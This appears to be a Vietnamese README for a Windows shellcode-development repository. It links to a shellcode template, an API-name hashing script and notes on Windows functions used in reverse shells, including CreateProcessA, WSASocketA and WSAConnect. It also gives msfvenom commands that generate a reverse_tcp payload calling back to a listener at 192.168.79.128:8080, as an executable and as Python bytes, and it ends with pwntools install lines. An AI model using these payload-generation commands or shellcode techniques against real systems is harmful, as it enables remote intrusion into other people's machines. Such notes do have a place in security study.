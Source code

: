 [File shellcode template ](./shellcode/shellcode.py)

[File tình hash tên hàm](./shellcode/computehash.py)

### Một số hàm
[CopyFileA](./Functions/CopyFileA/README.md) 

[CreateProccessA](./Functions/CreateProcessA/README.md) 

[GetUserNameA](./Functions/GetUserNameA/README.md) 

[GetUserProfileDirectoryA](./Functions/GetUserProfileDirectoryA/README.md) 

[LoadLibraryA](./Functions/LoadLibraryA/README.md) 

[MoveFileA](./Functions/MoveFileA/README.md) 

[TerminateProccess](./Functions/TerminateProccess/README.md) 

[WSAConnect](./Functions/WSAConnect/README.md) 

[WSASocketA](./Functions/WSASocketA/README.md) 

[WSAStartup](./Functions/WSAStartup/README.md) 


Tạo meterpreter:
msfvenom -p windows/custom/reverse_tcp LHOST=192.168.79.128 LPORT=8080 -f exe -o met.exe
msfvenom -p windows/custom/reverse_tcp LHOST=192.168.79.128 LPORT=8080 -f python

cài pwntool
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
